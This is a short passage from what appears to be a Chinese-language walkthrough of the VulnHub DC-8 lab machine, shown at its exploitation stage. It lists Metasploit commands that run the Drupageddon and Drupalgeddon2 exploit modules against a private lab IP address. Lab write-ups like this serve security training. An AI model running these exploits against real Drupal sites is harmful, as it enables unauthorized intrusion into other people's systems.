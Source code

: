 ![](../../../../../assets/img/安全/实验/VulnHub/DC/DC8/3.png)

---

# 中期-漏洞利用

```
msfconsole
use exploit/multi/http/drupal_drupageddon
set RHOSTS 192.168.141.141
run
use exploit/unix/webapp/drupal_drupalgeddon2
set RHOSTS 192.168.141.141
run
```
